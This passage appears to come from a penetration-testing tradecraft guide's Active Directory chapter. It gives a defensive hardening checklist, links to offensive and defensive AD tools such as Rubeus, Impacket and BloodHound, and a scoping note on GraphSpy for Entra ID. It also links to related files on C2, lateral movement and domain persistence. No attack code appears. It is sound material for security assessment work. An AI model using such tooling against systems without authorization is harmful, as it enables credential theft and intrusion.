☐ LAPS deployed on all workstations and servers
☐ SMB signing enforced (prevents NTLM relay)
☐ LDAP signing and channel binding
☐ WDigest disabled
☐ Credential Guard enabled
☐ Tiered admin model implemented
☐ AD audit policy (4662, 4769, 4624, etc.) enabled and forwarded to SIEM
```

---

## References

- [BloodHound](https://github.com/SpecterOps/BloodHound)
- [PowerView / PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Impacket](https://github.com/fortra/impacket)
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [MITRE ATT&CK: Credential Access](https://attack.mitre.org/tactics/TA0006/)
- [SpecterOps BloodHound Blog](https://specterops.io/blog/)
- [Harmj0y AD Security Blog](https://blog.harmj0y.net/)
- [Microsoft AD Security Best Practices](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/component-updates/executive-summary)
- [Pingcastle AD Health Check](https://www.pingcastle.com/)
- [Purple Knight](https://www.semperis.com/purple-knight/) - Free AD assessment tool

## Cloud identity is a separate assessment scope

[GraphSpy](https://github.com/RedByte1337/GraphSpy) is a Microsoft Graph-oriented platform for **Microsoft Entra ID / Microsoft 365** assessments. It is relevant to a hybrid identity engagement, but **not** a drop-in replacement for on-premises Active Directory tools in this chapter. Evaluate tenant-specific consent, Graph permissions and audit visibility separately; keep tokens and customer data out of logs and public issues, and obtain explicit scope authorization.

## Related Files
- [README.md](README.md) - Tradecraft section index
- [c2-frameworks.md](c2-frameworks.md) - C2 that executes AD post-exploitation
- [lolbins-lolbas.md](lolbins-lolbas.md) - LOLBins used in AD lateral movement
- [../Checklists/ActiveDirectory.md](../Checklists/ActiveDirectory.md) - AD attack checklist
- [../Checklists/Domain-Escalation.md](../Checklists/Domain-Escalation.md) - Domain escalation checklist
- [../Checklists/Domain-Persistence.md](../Checklists/Domain-Persistence.md) - Domain persistence checklist

---

[Section Index](README.md) | [Master Index](../README.md) | [Legal Notice](../LEGAL.md)
